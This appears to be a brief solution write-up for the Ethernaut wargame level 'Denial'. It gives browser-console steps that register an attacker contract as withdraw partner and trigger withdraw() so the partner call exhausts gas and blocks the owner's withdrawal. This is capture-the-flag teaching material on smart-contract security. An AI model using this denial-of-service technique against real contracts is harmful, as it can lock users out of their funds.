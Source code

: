 ## Ethernaut-solution

### 20. Denial


1. deploy DenialAttack.sol 

2. 
```
> contract
n {methods: {…}, abi: Array(6), address: '0x084d1e5F01b1bf2ad05080D1f5843237BfeD49Cc', transactionHash: undefined, constructor: ƒ, …} 
```

3. paste DenialAttack address //DenialAttack be WithdrawPartner, always assert error if you try to withdraw fund
```
contract.setWithdrawPartner("0x97EB3A7dcd84b417317045af7e6351c4750AD6e5")
```

4. contract.withdraw() //partner.call{value:amountToSend}(""); gonna foeward all of the remaining gas for this trnasaction to execute this function 

## References

[Defi Developer Academy](https://www.youtube.com/watch?v=TlNYHPRgLao)